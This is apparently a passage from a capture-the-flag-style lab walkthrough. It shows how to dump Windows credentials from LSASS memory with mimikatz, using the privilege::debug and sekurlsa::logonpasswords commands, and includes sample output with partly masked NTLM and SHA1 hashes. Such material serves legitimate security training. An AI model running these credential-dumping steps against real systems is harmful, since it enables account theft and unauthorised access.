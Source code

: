 >>Deploy the machine attached to this task using the green Start Machine button, and Access the machine on $MACHINE_IP. This machine is accessible in the browser. Alternatively, you can also access the machine via RDP using the credentials:

   * Username: Administrator
   * Password: letmein123!

>>Additionally, deploy the attack box, which will be used in a later section of this task.

>>When an attacker gets access to a local Windows system, one of the first things they would do would be to dump the password hashes stored in the LSASS process. Since the LSASS process has to interact with the SAM database and store credentials in memory, it usually runs with more privileges than a standard user. For an attacker to interact with LSASS, they need to have high privileges.

>>A standard tool used to retrieve password hashes from memory is called mimikatz (https://github.com/gentilkiwi/mimikatz). Mimikatz has various modules that can be used to extract different kinds of credentials from memory and use these credentials to access user accounts. For this exercise, we'll be using the sekurlsa module.

>>Open PowerShell using the start menu and Navigate to the C:\Users\Administrator\Desktop\mimikatz\x64 and run the mimikatz program

```bash
Running Mimikatz

           
PS C:\Users\Administrator\Desktop\mimikatz\x64> .\mimikatz.exe
.#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

>>Use the following command to check if you have the appropriate privileges to run the program:
Checking Privileges

```          
mimikatz # privilege::debug
Privilege '20' OK
```

>>Once you have verified that you have the appropriate privileges, we'll be dumping the passwords from the LSASS memory using the sekurlsa module. This module is used to extract various credentials from the LSASS memory. You need Administrator access or a SYSTEM account to use this module.

>>Within this module, we can use the logonpasswords function to extract the credentials for currently logged in users:

## Dumping Passwords

```bash          
mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; 595919 (00000000:000917cf)
Session           : RemoteInteractive from 3
User Name         : em***
Domain            : THM
Logon Server      : THM
Logon Time        : 12/8/2021 9:09:24 PM
SID               : S-1-5-21-1966530601-3185510712-10604624-1009
        msv :
         [00000003] Primary
         * Username : em***
         * Domain   : THM
         * NTLM     : 8af32*******************
         * SHA1     : 8c4c6*******************
```